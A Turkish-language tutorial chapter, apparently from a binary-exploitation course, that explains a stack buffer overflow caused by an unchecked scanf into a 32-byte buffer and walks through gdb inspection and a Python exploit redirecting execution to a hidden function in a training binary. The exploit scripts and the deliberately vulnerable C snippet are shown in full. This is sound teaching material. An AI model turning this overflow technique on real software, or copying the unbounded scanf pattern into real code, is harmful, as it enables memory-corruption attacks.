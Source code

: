 # Hedefimiz
Bu bölüm için hedefimiz programın akışını değiştirerek normalde 
erişilemez olan `cant_get_here` fonksiyonuna ulaşmak.

# Kod analizi
Bölüm için verilen C koduna baktığımız zaman güvenli olmayan `scanf()`
fonksiyonun 32 bytelık uzunluğa sahip bir karakter dizisine kullanıcı
girdisi kopyalamak için kullanıldığını görüyoruz:
```c
  char overflow[32];
  ...
  // !! OVERFLOW HERE !!
  scanf("%s", overflow);
```
`scanf()` doğrudan `%s` formatı ile kullanıldığında, (bir yolu olmadığı için) overflow
kontorlü yapmadığından kullanıcının 32 karakterdan daha uzun bir girdi sağlıyarak değeri
stack'te tutulan `overflow` karakter dizisi üzerinden stack overflow zafiyetini exploit etmesi
mümkün.

# PoC exploiti
Hadi öncellikle burda gerçekten de bir zafiyet olduğunu doğrulamak ile başlayalım.
Bunu doğrulamak adına, programa uzun bir karakter çıktısı sağlayabiliriz:
```bash
python3 -c "print('A'*100)" | ./0x0.elf
```
Bu programın çökmesine, yani `segmentation fault`a (segfault) neden olacaktır. Ama ne kadar 
karakterden sonra programın çökmesine sebep olmaya başlayabiliriz?

Burda anlamamız gereken şey programın neden çöktüğü. Program stack üzerinde
kayıtlı olan dönüş adresinin üzerine yazdığımız zaman çöküyor. Çöktüğü noktada
`main()` fonksiyonun dönüş yaptığı nokta. Bu noktaya geldiğimizde, program 
stack üzerinde kayıtlı olan dönüş adresine gitmeye çalışıyor. Ancak dönüş adresi
artık tamamı ile anlamsız A harfleri ile dolduğundan hatalı bir adrese dönüyor ve
`segmentation fault` hatası alıyoruz.

Bu bilgi ile aslında size neden aldığımız hatanın isminin `segmentation fault` olduğunu
açıklayabilirim. Çalışma esnasında, kernel her program için sanal bir bellek oluşturur.
Program, kendine özel bu belleğin dışına erişmeye çalışınca, program kendine ayrılan
bellek bölgesinin dışına erişemiyeceğinden (bölge yani segment, isim burdan geliyor)
kernel programın bu davranışını raporlar, ardından da programı sonlandırır.

Bu sonlandırma işlemi için kernel programa ESEGV (11) sinyalini gönderir. Bunu `kill -11 <pid>`
komutu ile kendiniz de test edebilirsiniz.

### Hangi noktadan sonra return adrese yazabiliriz?
Çok basit. 32 bytelık dizimizi zaten doldurmamız lazım, elde var 32. Return adresin üstünde
anlık içinde bulunduğumuz fonksiyonun stack adresini belirleyen `rbp` (base pointer) var,
8 byte daha eklersek 40. Yani tekniken 40 karakterden sonra return adrese yazmaya başlayabiliriz.

İşte size bir soru! Programa tam olarak 40 karakterlik bir çıktı sağlarsak ne olur?
- **A)** Program sorunsuz şekilde çalışmaya devam eder
- **B)** Program çöker
- **C)** Öylesine okuyordunuz ve cevabı bilmiyorsunuz

Az önce söylediğime göre *tekniken* 40 karakterden **sonra** return adrese yazmaya başlayabiliriz değil mi?
Evet bu doğru yani cevap A seçeneği... Ya da öyle mi? Eğer aşağıdaki komutu çalıştırırsanız yine de bir
segfault alıcaksınız:
```bash
python3 -c "print('A'*40)" | ./0x0.elf
```

Çok ilginç... Peki Watson, bu nasıl oluyor?

### C'nin gizemlerle dolu dünyası...
Evet yukardaki şey hatalı değil, 40 karakterden sonra adrese yazmaya başlıyoruz. Ama sorun `scanf()`
fonksiyonun 40 karakter okumaması.

Eğer `scanf()` fonksiyonun manual sayfasına bakarsanız, açıklamasında şunu görecekseniz:
```
       The scanf() family of functions scans formatted input like sscanf(3)...
```
Ve eğer `sscanf()` in manual sayfasına bakarsaksanız, `%s` formatının nasıl çalıştığına bakabiliriz:
```
       s      Matches  a  sequence of non-white-space characters; the next pointer must be a pointer to the initial
              element of a character array that is long enough to hold the input sequence and the terminating  null
              byte  ('\0'),  which is added automatically.  The input string stops at white space or at the maximum
              field width, whichever occurs first.
```

Yani `scanf()` en sondaki yeni satır karakterini veya EOF'u (End-Of-File), `\0` (`0x00`) ile değiştiriyor.
Peki bunu neden yapıyor? C bilenleriniz çoktan durumu kavradı bile. C'de karakter dizilerinin
nerde bittiğini takip bir yolu olmadığından genel C fonksiyonları karakter dizeleri ile işlemlerini 
`\0` karakterine kadar yapıyor. C için `\0` karakteri "hey karakter dizesinin sonuna geldik dostum" işareti gibi
birşey. O yüzden bu karakter null byte'ın yani sıra **trailing null** olarak da bilinir. Bu olaya da 
genel olarak **null termination** denir.

Hadi sonucu gelelim. Biz 40 karakter girdiğimizde `scanf()` aslında `overflow` dizesine esktra bir `\0`
yazdığından totalde 41 karakter ile return adrese yazmış oluyoruz ve program çöküyor.

Anlaşılan gizemi çözdük Watson!

### Kullanışsız bir PoC
Hadi python ile basit bir PoC yazalım:
```python
from struct import pack

filler = b"A"*40 # overflow[] + rsp
ret    = b"N"*8

f = open("/tmp/ex", "wb")
f.write(filler+ret)
f.close()
```
Bu PoC basitçe dönüş adresini `N` harfi ile (`0x4e`) doldurmalı. Bunu test etmek
adına programımızı gdb'de açabiliriz.

Şimdi programı gdb ile başlatmak için
```bash
gdb ./0x0.elf
```

Hadi önce okunabilir olan intel assembly moduna geçelim:
```
set disassembly-flavor intel
```

Daha sonra `gdb`'de `scanf()` fonksiyonundan hemen sonraya bir breakpoint yerleştirebiliriz:
```
disassemble main
```
bu çıktıdan `call   ... <scanf...`den sonraki adresi bulun, ardından breakpoint
yerleştirmek için:
```
break *<adres>
```

Şimdi ise sıra programı `/tmp/ex` girdisi ile çalıştırmakta:
```
run < /tmp/ex
```

Anında breakpointe varacağız, şimdi hadi stack'e bakalım:
```
x/24g $rsp
```

Aşağıdaki gibi bir çıktı görüyor olmanız lazım:
```
...:	0x4141414141414141	0x4141414141414141
...:	0x4141414141414141	0x4141414141414141
...:	0x4141414141414141	0x4e4e4e4e4e4e4e4e
```
`0x4e`yi görüyor musunuz? İşte orası return adresin olduğu yerdi, üzerine yazmayı başardık!

Şidmi eğer programı çalıştırmaya devam ederseniz segfault alacağız:
```
c
```

Artık tüm konseptleri anladığımıza göre, işe yarar bir exploit yazabiliriz!

# Son exploit
Şimdi programın akışını nasıl `cant_get_here` fonksiyonuna çevireceğimizi 
tahmin ettiğinizi düşünüyorum. Tek yapmamız gereken PoC exploitimizdeki `ret` değişkenine
`cant_get_here`'ın adresini vermek. Bu durumda program bu adrese dönüş yapıcak, biz de
hedefimize erişmiş olacağız.

`cant_get_here`ın adresini bulmak için `objdump` aracını kullanabiliriz:
```bash
objdump -d ./0x0.elf  | grep cant_get_here
```

baştaki adresi kopyalıyalım, bunu `pack` fonksiyonu ile exploitimize yerleştirebiliriz:
```python
from struct import pack

filler = b"A"*40
ret    = pack("<Q", 0x<adres>)

f = open("/tmp/ex", "wb")
f.write(filler+ret)
f.close()
```

`pack` fonksiyonu little/big endian muhabbetini halletmemizi sağlıyor. İlk başta
verdiğimiz `<Q` argümanındaki `<` basitçe verinin little endian ile paketlenmesini söylerken
`Q` verinin `unsigned long long` olarak (8 byte) paketlenmesini söylüyor. Bu fonksiyon ve
argümanları hakkında daha fazla bilgi için [`struct` modülün dökümentasyonunu inceleyin](https://docs.python.org/3/library/struct.html).

Bunun ile beraber exploitimiz hazır, hadi deneyelim:
```bash
python3 exploit.py && cat /tmp/ex | ./0x0.elf
```

Alıcağınız çıktı şöyle birşey olmalı:
```
root@o101:~/0x0# cat /tmp/ex | ./0x0.elf
Hello, what's your name?
Nice to meet you AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAF@!
How did we get here?
Segmentation fault (core dumped)
```
Ve başardık! `cant_get_here` fonksiyonuna ulaştık. 

Fakat program yine de çökücektir. Bunun sebebi `cant_get_here`ın normalde başka bir fonksiyona ait olan
stack frame'ini kullanması. Bu sebeple `cant_get_here` işini bitirdiğinde stack frame'i doğru şekilde
temizlenemiyor, ve return adresi tamamiyle rastgele bir adrese denk geliyor. 

Ama bu bizim için önemli değil, sonuç olarak hedefmize ulaştık!

---
[Önceki](basics.md) | [Sonraki](0x1.md)
